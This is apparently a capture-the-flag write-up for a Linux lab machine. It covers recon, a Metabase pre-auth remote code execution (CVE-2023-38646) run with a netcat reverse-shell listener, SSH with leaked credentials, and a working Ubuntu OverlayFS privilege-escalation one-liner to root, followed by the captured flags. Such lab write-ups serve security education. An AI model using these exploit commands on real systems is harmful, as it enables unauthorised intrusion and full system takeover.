

<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS:</strong>
      
      <span style="margin-left: 5px;">Linux</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Easy</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>7u9y & TheCyberGeek</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>October 7, 2023</span>
    </div>
  </div>

</div>


## Recon

### nmap

``` bash
$ nmap -sC -sV 10.10.11.233
```


We can see there is a http page running on port 80
Also we add the domain to the /etc/hosts file


### Web Page
After looking around the website, when I pressed the login button, it took me to the data.analytical.htb subdomain
So we update the hosts file again and we get a login page


The login page:


After searching for a Metabase exploit, I came across [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396)

This vulnerability allows us to execute code without any authentication

## Exploit

### setup-token

We head to the url specified in the previous [link](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) (data.analytical.htb/api/sessions/properties) and search for setup-token


As we can see, the setup-token is leaking, which means it is vulnerable to the exploit

### Run the exploit

Download the [exploit](https://github.com/securezeron/CVE-2023-38646)

Setup a netcat listener.
``` bash
$ nc -lvnp 1234
```

While the listener is running, run the exploit
``` bash
$ python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/ --lhost <Attacker IP> --lport 1234
```

After the exploit runs, we get a shell as the user metabase.


### Docker Container

We are now in a docker container.
However, if we check the environment variables, we get a user and password
``` bash
$ env
```


### SSH and user flag

We can now use the credentials obtained to ssh as the user metalytics
``` bash
$ ssh metalytics@10.10.11.233 
```
We are now logged in as metalytics.
``` bash
$ whoami
metalytics 
```
We can now get the user.txt flag
``` bash
$ cat /home/metalytics/user.txt
a6c6422a0c214ffd37f50a632abeb48d
```

## PrivEsc

### Ubuntu LPE

No sudo commands can be run.
I searched for exploits on the running OS version, which is 22.04.2-Ubuntu
``` bash
$ uname -a
```


I found this [Ubuntu LPE exploit](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/)

First i tried to run the command "id" and see if I would get root back
``` bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

We got the root id, which means the command is being executed as root

So I change the command to run a bash shell
``` bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

We now have a shell as root
``` bash
$ whoami
root
```

All we have left to do is get the root flag
``` bash
$ cat /root/root.txt
e7cea9c28a9c3460c2fd69964833561b
```
